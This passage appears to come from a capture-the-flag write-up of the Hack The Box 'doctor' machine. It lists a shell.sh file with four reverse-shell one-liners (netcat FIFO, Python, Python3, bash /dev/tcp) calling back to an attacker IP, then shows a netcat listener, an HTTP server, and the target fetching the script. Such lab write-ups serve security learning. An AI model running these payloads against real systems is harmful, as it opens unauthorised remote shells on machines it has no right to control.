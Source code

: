### Contents of  shell.sh
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.141 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.141",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.141",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/10.10.14.141/9001 0>&1
```
I like to use multiple reverse shell payloads.

### Listening on my box on 9001
```console
local@local:~/Documents/htb/boxes/doctor$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
```

### Python server on Port 8000
```console
local@local:~/Documents/htb/boxes/doctor$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Updating previous post with new payload
![12](/assets/images/doctor/12.png)

And when we make a request to **/archive**, we get a request on our python server on port 8000 for **shell.sh** file.
```console
local@local:~/Documents/htb/boxes/doctor$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.19.165 - - [28/Sep/2020 23:16:29] "GET /shell.sh HTTP/1.1" 200 -
```
It worked. Now we just have to execute the file.
